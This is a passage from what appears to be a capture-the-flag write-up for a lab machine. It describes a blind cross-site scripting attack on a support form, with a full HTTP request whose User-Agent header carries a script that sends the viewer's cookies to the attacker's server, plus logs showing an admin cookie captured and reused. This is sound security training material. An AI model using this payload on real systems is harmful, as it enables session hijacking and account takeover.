 I started a web server on my machine and a few seconds after my request I got a request from the server.

```bash
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.243.69 - - [09/Jun/2024 09:55:36] code 404, message File not found
10.129.243.69 - - [09/Jun/2024 09:55:36] "GET /agent HTTP/1.1" 404 -
```

It was vulnerable to XSS and something on the server was looking at the reports. I tried sending my server the cookies of the user looking at the reports.

```http
POST /support HTTP/1.1
Host: target.htb:5000
User-Agent: <script>new Image().src="http://10.10.14.121/cookie?c="+document.cookie;</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 106
Origin: http://target.htb:5000
Connection: keep-alive
Referer: http://target.htb:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=first&lname=last&email=test%40test.com&phone=phone&message=<img src="http://10.10.14.121/message" />
```

I waited, and got the admin cookie.

```bash
10.129.243.69 - - [09/Jun/2024 09:58:48] code 404, message File not found
10.129.243.69 - - [09/Jun/2024 09:58:48] "GET /cookie?c=is_admin=REDACTED HTTP/1.1" 404 -
```

I changed my cookie value in the browser and tried accessing the dashboard again.

![Dashboard](/assets/images/2024/07/Headless/Dashboard.png "Dashboard")
